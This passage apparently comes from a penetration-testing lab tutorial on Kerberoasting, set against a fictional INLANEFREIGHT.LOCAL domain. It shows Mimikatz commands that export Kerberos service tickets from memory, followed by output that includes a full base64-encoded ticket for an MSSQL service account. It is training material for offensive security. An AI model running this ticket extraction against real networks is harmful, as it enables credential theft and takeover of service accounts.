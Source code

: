 We can also choose to retrieve all tickets using the same method, but this will also pull all computer accounts, so it is not optimal.
        
Now that the tickets are loaded, we can use `Mimikatz` to extract the ticket(s) from `memory`.
        
### Extracting Tickets from Memory with Mimikatz
        
```powershell
        Using 'mimikatz.log' for logfile : OK
        
        mimikatz # base64 /out:true
        isBase64InterceptInput  is false
        isBase64InterceptOutput is true
        
        mimikatz # kerberos::list /export
        
        <SNIP>
        
        [00000002] - 0x00000017 - rc4_hmac_nt
           Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
           Server Name: MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
           Client Name: htb-student @ INLANEFREIGHT.LOCAL
           Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ;
        ====================
        Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
        ====================
        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
        ZWZyZWlnaHQubG9jYWw6MTQzMw==
        ====================
        
```